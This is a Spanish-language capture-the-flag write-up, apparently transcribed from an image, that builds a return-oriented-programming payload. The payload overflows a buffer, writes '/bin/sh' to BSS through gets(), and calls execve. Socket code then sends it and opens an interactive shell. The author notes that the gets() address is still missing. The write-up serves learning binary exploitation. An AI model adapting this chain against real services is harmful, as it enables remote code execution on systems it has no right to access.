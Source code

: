 ```
payload += p64(0x40141c) <== La dirección de POP RDI; RET

payload += p64(0x604440) <== La dirección de BSS donde vamos a escribir

payload += p64(addr_gets)<== Lo que escribiremos, que será lo que envíe el usuario (supongo xD)
```

Con esto nos quedaría una primera parte del exploit:

```
payload = "A"*264   <== A partir de ese caracter tenemos el buffer overflow

payload += p64(0x40141c) <== La dirección de POP RDI; RET

payload += p64(0x604440) <== La dirección de BSS donde vamos a escribir

payload += p64(addr_gets)<== Lo que escribiremos, que será lo que envíe el usuario


payload += p64(0x400121) <== La dirección de POP RAX; RET

payload += p64(59)       <== El valor 59 para hacer la llamada EXECVE


payload += p64(0x40141c) <== La dirección de POP RDI; RET

payload += p64(0x604440) <== La dirección de BSS donde hemos escrito, luego apunta a un string "/bin/sh" (es lo que queríamos)


payload += p64(0x40141a) <== La dirección de POP RSI; POP R15; RET

payload += p64(0)        <== Lo que meteremos en RSI

payload += p64(0)        <== Lo que meteremos en R15, cualquier basura



payload += p64(0x4023f5) <== La dirección de POP RDX; RET

payload += p64(0)


payload += p64(0x4024dd) <== La dirección de SYSCALL; RET

```

Falta abrir el socket, enviar el comando que lo leerá el gets() y leer la flag... pero en nuestro caso a la próxima xDD

```
sock = Socket(HOST, PORT)  <== Otra opción: sock = remote(HOST, PORT)

sock.recvline()

sock.sendline(payload)     <== Mandamos todo el payload que hemos creado

sock.sendline("/bin/sh")   <== Mandamos un comando que se escribirá en la parte de BSS que hemos indicado antes

sock.interactive()         <== Tras esto tendríamos la shell
```
Lo que falta: cómo sacar la dirección de la función gets() del binario! Se supone que es 0x4004ee pero no lo consigo sacar de manera rápida, supongo que hay que meterse a fondo con IDA o algo parecido.
